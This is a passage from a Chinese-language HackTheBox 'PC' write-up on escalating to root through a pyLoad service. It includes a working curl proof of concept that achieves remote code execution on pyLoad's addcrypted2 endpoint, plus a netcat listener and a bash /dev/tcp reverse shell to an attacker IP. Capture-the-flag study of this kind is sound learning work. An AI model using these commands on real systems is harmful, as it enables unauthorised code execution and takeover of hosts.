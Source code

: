 查看 pyload 权限：`ps -aux | grep pyload`是 root，可以用来进行权限提升

比较简单的做法是直接在`msfconsole`中搜索`pyload`的 exploit

![msfconsole.png](/img/post-HTB-PC/10.png)

也可以一步一步来，先按照 github 的说明构造 POC:

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8888/flash/addcrypted2'
```

运行上述命令后可以在 ssh 下看到在 /tmp 目录下多了一个 pwnd 文件，说明确实存在 RCE

需要监听端口然后构造反向shell：

`nc -lvnp 9001`

`sh -i >& /dev/tcp/10.10.16.42/9001 0>&1`

参考：[Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/)

~不知道为什么直接把上面的命令编码后替换原命令是无法执行的，可能和服务是 nohup 的有关？~

但总之还是先要随便创建一个比如`tmp/bash.sh`脚本包含上面内容（可以通过ssh或者RCE）

![bash.png](/img/post-HTB-PC/11.png)
